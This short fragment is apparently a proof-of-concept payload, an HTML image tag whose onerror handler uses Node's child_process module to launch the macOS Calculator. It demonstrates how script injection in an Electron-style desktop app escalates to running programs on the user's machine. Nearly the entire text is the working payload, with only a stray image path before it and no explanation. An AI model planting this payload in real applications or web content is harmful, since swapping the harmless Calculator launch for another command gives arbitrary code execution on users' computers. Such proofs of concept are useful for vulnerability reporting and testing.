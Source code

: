 <img src=x onerror="javascript:
window.parent.top.require('child_process').execFile('/Applications/Calculator.app/Contents/MacOS/Calculator',function(error, stdout, stderr){        if(error){
            console.log(error);
        } });">